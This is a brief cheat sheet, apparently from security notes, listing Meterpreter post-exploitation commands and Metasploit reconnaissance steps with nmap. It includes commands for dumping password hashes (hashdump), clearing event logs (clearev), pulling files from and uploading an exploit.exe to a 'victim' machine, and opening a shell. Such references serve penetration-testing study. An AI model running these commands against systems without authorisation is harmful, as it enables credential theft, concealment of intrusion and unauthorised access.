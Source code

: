 ### Meterpreter

```bash
# meterpreter > <command>

background    #Switch from a Meterpreter session to the msfconsole command line 
cat
cd
checksum md5 /bin/bash
clearev
download Filename /root/****   #Download From victm machine to your machine 
edit
execute -f ifconfig
getenv
getenv PATH
getuid
hashdump
idletime
ifconfig
lpwd
ls
migrate
mkdir
ps
pwd
resource <file.txt>
rmdir
search -f *.txt
shell   #run a standard operating system shell 
sysinfo   #information about the victm Machine 
upload /****/exploit.exe C://Windows     #Upload from your machine to victm machine   
```

### Info Gathering & Enumeration

```bash
workspace -a <hostname_enum>
# NMAP Export in .XML
nmap -Pn -sV -O <TARGET_IP> -oX <XML_FILE_NAME>

# msfconsole
db_import <XML_FILE_NAME>

hosts
services
vulns
loot
creds
notes

# Nmap inside MSF
db_nmap -Pn -sV -O <TARGET_IP>
```
